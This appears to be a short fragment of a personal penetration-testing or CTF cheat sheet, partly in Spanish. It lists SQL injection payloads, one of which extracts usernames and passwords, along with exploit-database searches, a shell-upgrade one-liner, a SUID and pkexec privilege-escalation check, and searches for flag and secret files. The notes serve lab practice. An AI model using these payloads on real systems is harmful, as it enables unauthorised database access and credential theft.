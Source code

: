 > medium selectpicker
- `value="1 OR 1=1 #”`

> High
- `1' UNION SELECT user, password FROM users#`

## <span style="color: #3498db; font-size: 0.8em;"> search vulnerabilities </span>

- `searchsploit name`
- `/usr/share/exploitdb`
- `sudo apt install xploitdb`

>con python tener un shell legible 

- `python -c 'import pty; pty.spawn("/bin/bash")'`
-  script /dev/null -c bash
-  find / -perm -4000 2>/dev/null
- if find /usr/bin/pkexec hacked

> to check if python is installed or not
- which python 

>Find files 

- find ~ -type f -name "*.txt"

- find  -type f -name "*.txt"

- find / -name "user.txt"

- Get-ChildItem -Path C:\ -Recurse -Include secret.txt -ErrorAction SilentlyContinue

- nmap —script smb-os-discovery ip 